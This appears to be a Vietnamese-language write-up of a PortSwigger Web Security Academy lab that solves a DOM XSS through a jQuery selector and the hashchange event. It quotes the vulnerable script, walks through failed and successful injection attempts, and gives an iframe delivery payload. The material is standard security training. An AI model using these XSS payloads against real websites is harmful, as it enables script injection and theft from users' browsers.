

# DOM XSS in jQuery selector sink using a hashchange event

# 1. Vulnerable


Trang web có chứa đoạn mã tự động chạy đến một phần của trang thông qua hàm `location.hash`

Khi trên url của trang web có chứa dấu `#` ở cuối, ta sẽ tự động được di chuyển đến phần định danh tương ứng với phần sau dấu `#` đó

Mỗi khi có dấu `#`, chương trình sẽ chạy:

```
<script>
    $(window).on('hashchange', function(){
        var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
        if (post) post.get(0).scrollIntoView();
    });
</script>
```

Chạy câu lệnh `decodeURIComponent(window.location.hash.slice(1))` ta thấy:


# 2. Exploit

Sau khi xác định là có thể trực tiếp inject ở hàm 

```
var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
```

Mình đã thêm đoạn code: `)');alert() //` thì mã của chương trình trở thành:

```
$('section.blog-list h2:contains()');alert() //)');
```


Nhưng khi chạy lại câu lệnh `decodeURIComponent(window.location.hash.slice(1))` thì đoạn `)');alert() //` lại trở thành `")');alert() //"` khiến câu lệnh nối không được hoàn thành do khác biệt dấu ' và "

Chuyển qua cách khác.

Khi mình thử với datatype mới

```
var post = $('section.blog-list h2:contains(' + '<h1>khanh</h1>' + ')');
```



Vậy là biến post đã trở thành 1 giá trị thẻ `<h1>` trong html

Ta sẽ khiến biến post trở thành 1 bad img và lợi dụng onerror để chạy XSS

```
var post = $('section.blog-list h2:contains(' + '' + ')');
```


Biến log trở thành 1 thẻ img lỗi và alert được hiện ra

Payload gửi cho victim vào trang web bị lỗi và thực hiện hàm print

```
<iframe src="https://0aac00ae043e2f97810b39dd001b00f8.web-security-academy.net/" onload="this.src+='#'"></iframe>
```

Do ta phải vào trang web rồi mới sử dụng được truy vấn `#` nên sau khi gửi victim trang web rồi mới onload qua link xss được

